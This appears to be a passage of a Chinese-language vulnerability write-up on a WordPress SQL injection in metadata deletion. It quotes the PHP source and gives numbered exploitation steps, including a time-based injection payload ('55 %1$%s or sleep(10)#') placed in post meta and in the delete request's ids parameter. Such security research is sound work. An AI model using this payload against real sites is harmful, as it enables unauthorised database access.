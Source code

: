 ```php
		$query .= $wpdb->prepare(" AND $type_column = %d", $object_id );
	if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value )
		$query .= $wpdb->prepare(" AND meta_value = %s", $meta_value );
	$meta_ids = $wpdb->get_col( $query );
	if ( !count( $meta_ids ) )
		return false;
	if ( $delete_all ) {
		$value_clause = '';
		if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value ) {
			$value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
		}
		$object_ids = $wpdb->get_col( $wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key ) );
	}
...//ignore
```
**需满足条件：**
* **"SELECT meta_id FROM wp_postmeta WHERE meta_key = '_thumbnail_id' AND meta_value = 'xxx'"存在**
	即：需要使得wp_postmeta表内的_thumbnail_id的内容与我们的SQL语句一样（即内容为'123 %2$%s abc'）。

**wp_postmeta表内的meta_key和meta_value字段是可通过`写文章`功能内的`自定义栏目`添加的。但是禁止添加名称以`下划线`开头的自定义栏目，所以正常情况下我们无法添加_thumbnail_id栏目。**

关于如果绕过`下划线`检查添加post meta，请见下一篇文章：

* [Wordpress POST META_NAME校验绕过](/2017/09/05/Wordpress-POST-META-Check-Bypass/)

### 3.3 SQL注入漏洞利用

1. 添加媒体（/wp-admin/media-new.php），并记住媒体ID（这里的ID是55）。

{% asset_img 4.1.1.png 添加媒体 %}

2. 获取_wpnonce。
打开`/wp-admin/edit.php?post_type=post`，找到posts-filter内的_wpnonce（这里的_wpnonce是301ee97c09）

{% asset_img 4.2.1.png 添加媒体 %}

3. 添加/修改POST META，使存在meta_key为'_thumbnail_id'的meta_value为`'55 %1$%s or sleep(10)#'`

4. 访问`/wp-admin/edit.php?action=delete&_wpnonce=301ee97c09&ids=55 %1$%s or sleep(10)#`，触发SQL注入漏洞


